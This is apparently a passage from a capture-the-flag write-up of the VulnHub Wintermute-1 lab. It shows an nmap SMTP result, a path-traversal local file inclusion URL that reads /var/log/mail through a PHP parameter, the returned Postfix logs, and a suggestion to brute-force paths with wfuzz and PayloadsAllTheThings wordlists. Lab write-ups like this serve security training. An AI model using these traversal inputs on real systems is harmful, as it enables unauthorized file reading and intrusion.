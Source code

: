 
Remember earlier we found smtp
25/tcp   open  smtp            Postfix smtpd
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
We'll start hunting for the logs.
A Google search tell where the logs can be found `var/log/mail.log`.
Guess what its in log file

http://192.168.251.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail

For an easier read.
```
view-source:http://192.168.251.5/turing-bolo/bolo.php?bolo=../../../../var/log/mail.

Apr 14 19:24:31 straylight postfix/smtpd[4787]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4787]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4787]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4787]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4787]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4786]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4786]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4723]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4723]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4736]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4736]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4736]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4736]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4736]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:24:31 straylight postfix/smtpd[4723]: connect from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: SSL_accept error from unknown[192.168.251.4]: -1
Apr 14 19:24:31 straylight postfix/smtpd[4723]: warning: TLS library problem: error:1417D18C:SSL routines:tls_process_client_hello:version too low:../ssl/statem/statem_srvr.c:974:
Apr 14 19:24:31 straylight postfix/smtpd[4723]: lost connection after STARTTLS from unknown[192.168.251.4]
Apr 14 19:24:31 straylight postfix/smtpd[4723]: disconnect from unknown[192.168.251.4] ehlo=1 starttls=0/1 commands=1/2
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max connection rate 21/60s for (smtp:192.168.251.4) at Apr 14 19:24:31
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max connection count 4 for (smtp:192.168.251.4) at Apr 14 19:21:15
Apr 14 19:27:52 straylight postfix/anvil[4594]: statistics: max cache size 2 at Apr 14 19:21:08
Apr 15 04:14:16 straylight postfix/postfix-script[759]: starting the Postfix mail system
Apr 15 04:14:16 straylight postfix/master[761]: daemon started -- version 3.1.8, configuration /etc/postfix
All the activities have been logged including those during the scan process.
```
We can also use `PayloadsAllTheThings/File\ Inclusion/Intruders/` and wfuzz to bruteforce for possible directories.


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator